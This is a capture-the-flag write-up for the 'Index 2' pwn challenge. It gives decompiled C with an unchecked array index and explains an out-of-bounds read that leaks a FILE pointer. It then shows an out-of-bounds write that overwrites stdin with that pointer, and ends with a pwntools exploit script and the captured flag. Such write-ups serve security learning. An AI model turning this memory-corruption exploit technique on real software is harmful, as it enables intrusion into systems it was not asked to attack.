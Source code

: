 # Index 2

Co-authors: @Rosayxy

```
This time, you get the file pointer, not the flag itself.
```

Decompiled code via Ghidra:

```c
undefined8 main(undefined8 *param_1)
{
  int iVar1;
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  do {
    while( true ) {
      menu();
      fgets(local_78,100,stdin);
      iVar1 = atoi(local_78);
      if (iVar1 < 5) break;
      if (iVar1 == 0x539) {
        f = fopen("flag.txt","r");
      }
    }
    switch(iVar1) {
    case 0:
      printf("Invalid choice: %s",local_78);
      break;
    case 1:
      store_data();
      break;
    case 2:
      read_data();
      break;
    case 3:
      print_flag();
      break;
    case 4:
      puts("Bye!");
      if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
        return 0;
      }
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
  } while( true );
}


void read_data(void)
{
  int local_c;
  
  printf("Index: ");
  __isoc99_scanf(&DAT_00102041,&local_c);
  getchar();
  printf("Data: %s",nums + (long)local_c * 8);
  return;
}


void store_data(void)
{
  long in_FS_OFFSET;
  int local_1c [3];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Index: ");
  __isoc99_scanf(&DAT_00102041,local_1c);
  getchar();
  printf("Data: ");
  fgets(nums + (long)local_1c[0] * 8,8,stdin);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Steps:

1. open `flag.txt` and save `FILE *` to f variable
2. use out of bounds read to read `f` in `read_data`: `flag` is at 0x1040a0, `nums` is at 0x104060, so index is `(0x1040a0-0x104060)/8=8`
3. override stdin to `f`: `nums` is at 0x104060, `stdin` is at 0x104030, so index is `(0x104030-0x104060)/8=-6`
4. then the program finds data read from stdin invalid in `fgets(local_78,100,stdin);iVar1 = atoi(local_78);`, and prints out its content via `printf("Invalid choice: %s",local_78);`
5. get flag

Code:

```python
from pwn import *
elf = ELF("./index-2")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch='amd64', os='linux', log_level='debug')

p = remote("play.scriptsorcerers.xyz", 10022)
#p = process("./ld-linux-x86-64.so.2 ./index-2", shell="True")
p.sendline("1337")
p.sendline("2")
p.recvuntil("Index")
p.sendline("8")
# get f addr
data = p.recvline()
addr = data.split()[2][:-2]
print(data, addr.hex())
# point stdin to f
p.sendline("1")
p.recvuntil("Index")
p.sendline("-6")
p.recvuntil("Data")
p.sendline(addr+b"\x00"*2)
p.interactive()
```

Get flag:

```
Invalid choice: scriptCTF{4rr4y_OOB_l3v3l_up!_a1cfd21b2bbd}
1. Store data
2. Read data
3. Print flag
4. Exit
```

Credits to @Rosayxy.

